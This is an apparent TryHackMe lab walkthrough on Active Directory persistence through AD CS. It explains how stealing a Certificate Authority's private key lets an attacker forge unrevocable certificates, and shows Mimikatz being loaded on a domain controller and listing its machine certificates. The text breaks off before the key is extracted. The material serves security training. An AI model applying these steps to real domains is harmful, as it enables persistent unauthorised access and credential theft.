 
## AD CS
Certificates can grant us Domain Admin privileges, but they’re also a powerful tool for persistence. Here’s how it works:
- **What we need**: A valid certificate that supports Client Authentication.
- **Why it’s useful**: With this certificate, we can request a Ticket Granting Ticket (TGT) at any time.
- **The advantage**: Even if the targeted account’s password changes, we can still generate TGTs.
- **Persistence**: The only way to stop us is to revoke the certificate or wait for it to expire—usually about 5 years!

If we want ultimate persistence, we can go after the Certificate Authority (CA) itself. Here's how and why this is devastating:
- **Stealing the Root CA's Private Key**: If we steal the CA's private key, we can create our own certificates at will.
- **No Revocation**: Certificates we create won’t be issued by the CA, so the blue team cannot revoke them.
- **Impact on the Blue Team**: To remove us, they would need to rotate the entire CA, which requires revoking every single certificate it issued—disrupting the entire domain.
- **Why It’s Worse**: Imagine the blue team resets all credentials, removes Golden and Silver Tickets, and thinks the attackers are gone—only to discover we persisted as the CA itself.

## Extracting the Private Key
The private key of the Certificate Authority (CA) is stored on the CA server. In many organizations, especially those using Active Directory Certificate Services (AD CS) internally, this key isn’t always protected by advanced hardware methods like a Hardware Security Module (HSM). Instead, it is usually protected by the server's Data Protection API (DPAPI). This makes it possible for attackers to use tools like Mimikatz or SharpDPAPI to extract the CA's certificate and private key. With the private key, attackers can control the CA and create their own certificates, which can break the security of the whole network.


Use SSH to authenticate to THMDC.za.tryhackme.loc using the Administrator credentials from Task 2, create a unique directory for your user, move to it, and load Mimikatz:
```shell-session
za\administrator@DC C:\Users\Administrator.ZA>mkdir <username> 
za\administrator@DC C:\Users\Administrator.ZA>cd <username>
za\administrator@DC C:\Users\Administrator.ZA\am0>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Let's first see if we can view the certificates stored on the DC:
```shell-session

mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```